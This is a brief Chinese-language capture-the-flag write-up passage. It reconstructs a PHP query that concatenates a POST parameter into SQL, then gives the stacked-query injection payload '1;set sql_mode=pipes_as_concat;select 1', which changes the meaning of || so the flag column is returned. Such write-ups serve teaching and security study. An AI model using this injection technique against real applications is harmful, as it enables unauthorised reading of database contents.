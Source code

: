 ![](./img/5-2.png)

原`php`代码中的`SQL`语句应该是

```php
$sql = "select ".$_POST[query]."|| xxx from Flag" ;
```

### 预期解

这时候我们可以利用数据库的语句，更改`||`的意思，把它改为`连接符`，这样的话，不管输入啥都会查询到`flag`这个字段，构建`payload`

```sql
1;set sql_mode=pipes_as_concat;select 1
```

这样的话SQL语句就变成了

```sql
select 1;set sql_mode=pipes_as_concat;select 1 || flag from Flag
```
